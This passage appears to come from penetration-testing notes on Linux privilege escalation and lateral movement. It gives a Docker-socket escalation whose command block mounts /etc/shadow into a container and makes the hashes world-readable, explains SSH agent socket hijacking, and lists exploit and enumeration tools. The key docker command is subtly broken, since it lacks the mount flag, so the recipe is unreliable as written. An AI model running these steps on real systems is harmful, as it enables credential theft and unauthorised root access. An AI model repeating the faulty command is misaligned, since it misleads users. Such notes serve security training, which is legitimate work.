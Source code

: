 #### Extra resources
	https://github.com/SecWiki/linux-kernel-exploits
	http://exploit-db.com/
	https://github.com/lucyoa/kernel-exploits


### Unix Socket Exploitation
- The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker.
- The docker daemon bind to a unix socket instead of a TCP port.
- by default, that Unix Socket is owned by the user root; additionally, the docker always runs as the root user.

// lets suppose that the low priv user has access to the docker command, or he is part of docker group.
// and the docker unix socket is not protected by implementing the appropriate permissions.

```
docker run /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {Container ID} bash
cat /docker/hashedpasswords > /docker/test.txt
chmod 777 /docker/test.txt
cat /docker/test.txt
```

#### two examples
- https://www.exploit-db.com/exploits/40962/
- https://github.com/rapid7/metasploit-framework/pull/9408/files

#### Tools and Resources
- LinEnum - https://github.com/rebootuser/LinEnum
- LinuxPrivChecker - https://github.com/sleventyeleven/linuxprivchecker
- Unix-Privesc-Check - https://github.com/pentestmonkey/unix-privesc-check
- Linux Exploit Suggester - https://github.com/InteliSecureLabs/Linux_Exploit_Suggester
- Searchsploit - https://www.exploit-db.com/searchsploit/
- Kernelpop - https://github.com/spencerdodd/kernelpop
- Basic Linux Privesc - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- Linux Post-Exploitation Command list - https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List


## Lateral Movement
- involves moving throughout the target organization from machine to machine, server to server using credentials we obtain through other phases, and further strengthening our foothold within the target infrastructure to the ultimate objective which is defined by the customer.

### SSH HIjacking
	https://attack.mitre.org/wiki/Technique/T1184

- In order For this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.
- if we are root, its possible to compromise the SSH agent or access the SSH agents unix domain socket and hijack the connection.
- the ssh-agent creates a unix domain socket, and then listens For connections from the sshd daemon to this socket.
- the protection of the socket relies on simple unix permission, that means any authentication keys that are used with that socket can be retrieved by any user who can connect to the socket itself.
- moreover = https://www.symantec.com/connect/articles/ssh-and-ssh-agent

